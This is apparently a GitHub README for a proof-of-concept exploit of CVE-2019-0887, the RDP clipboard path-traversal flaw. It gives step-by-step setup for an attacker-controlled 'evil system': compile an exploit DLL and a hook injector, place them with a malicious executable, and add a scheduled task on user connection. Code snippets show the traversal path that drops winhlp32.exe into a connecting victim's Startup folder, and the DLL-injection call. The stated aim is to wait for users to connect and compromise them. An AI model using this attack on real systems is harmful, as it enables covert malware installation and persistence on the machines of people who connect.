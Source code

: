 # CVE-2019-0887

Compile the CVE-2019-0887, rename to `winhlp.dll`

Compile the Install_Hook, rename to `hook.exe`

> be careful, they must be compile with x64

Put then into the evil system just like that
```bash
c:\windows\hook.exe
c:\windows\winhlp.dll

c:\windows\winhlp64.exe # something evil 
```

if somebody want to change the path, there is the point
```bash
# CVE-2019-0887/dllmain.cpp
WCHAR  evalfile[] = { L"C:\\windows\\winhlp64.exe" };
WCHAR  efile[] = { L"C:\\windows\\system32\\..\\..\\..\\..\\..\\../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/winhlp32.exe" };

# Install_Hook/ConsoleApplication.cpp
LoadDll(pid, "C:\\Windows\\winhlp.dll");
```

Maybe use taskschd.msc to create a Task Plan, set a Trigger "On connection to user session" and set the filepath of hook.exe.

Waiting some guys connect to my evil system, copy something, and pwn...

> Tips: Why not use DLL hijack?
